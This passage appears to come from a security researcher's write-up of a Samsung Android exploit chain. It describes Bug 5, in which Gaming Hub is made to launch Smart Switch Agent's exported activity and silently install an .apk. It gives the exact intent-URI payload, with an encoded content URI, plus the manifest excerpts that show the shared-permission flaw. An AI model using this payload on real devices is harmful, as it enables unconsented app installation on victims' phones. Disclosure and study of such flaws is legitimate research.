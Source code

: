 
For our exploit chain, when the attacker phone generates a QR code, the random code at the end of the URL should be used in bug 4. This will force the target phone to download the .apk file automatically without user confirmation.

### Bug 5 – Silently install .apk file located on disk

#### Exploit Code

The following payload is sent from <attackerServer> to force Gaming Hub to launch Smart Switch Agent:

```
intent://#Intent;component=com.sec.android.easyMover.Agent/.ui.SsmUpdateCheckActivity;action=com.sec.android.easyMover.Agent.WATCH_INSTALL_SMART_SWITCH;S.MODE=DIALOG;S.ssm_action=yayactionyay;S.ssm_uri=%63%6f%6e%74%65%6e%74%3a%2f%2f%63%6f%6d%2e%73%61%6d%73%75%6e%67%2e%67%70%75%77%61%74%63%68%61%70%70%2e%48%74%6d%6c%44%75%6d%70%50%72%6f%76%69%64%65%72%2f%79%61%79%2e%61%70%6b;end;
```

NOTE: the `ssm_uri` value is set to a custom value that is specific to this exploit chain.

#### Exploit Details

The application "Smart Switch Agent" (`com.sec.android.easyMover.Agent` version 2.0.02.24) is a background application that runs alongside the Smart Switch application. When transferring data between an old phone and a new Samsung phone, the Smart Switch Agent helps facilitate the installation of applications on the new phone.

One of the exported Activities, `com.sec.android.easyMover.Agent.ui.SsmUpdateCheckActivity`, is protected by a custom permission, com.wssnps.permission.COM_WSSNPS. However, Gaming Hub also uses this permission, making it possible for Gaming Hub to launch the `SsmUpdateCheckActivity` Activity.

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    android:versionCode="710107000"
    android:versionName="7.1.01.7"
    ...
    package="com.samsung.android.game.gamehome"
    ...
    <uses-permission android:name="com.wssnps.permission.COM_WSSNPS"/>
```
```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    android:versionCode="200200024"
    android:versionName="2.0.02.24"
    ...
    package="com.sec.android.easyMover.Agent"
    ...
    <activity android:name="com.sec.android.easyMover.Agent.ui.SsmUpdateCheckActivity"
            android:permission="com.wssnps.permission.COM_WSSNPS"
            android:exported="true"
            android:excludeFromRecents="true"
            android:screenOrientation="portrait"
            android:configChanges="smallestScreenSize|screenSize|screenLayout|orientation">
            <intent-filter>
                <action android:name="com.sec.android.easyMover.Agent.WATCH_INSTALL_SMART_SWITCH"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
        </activity>
```
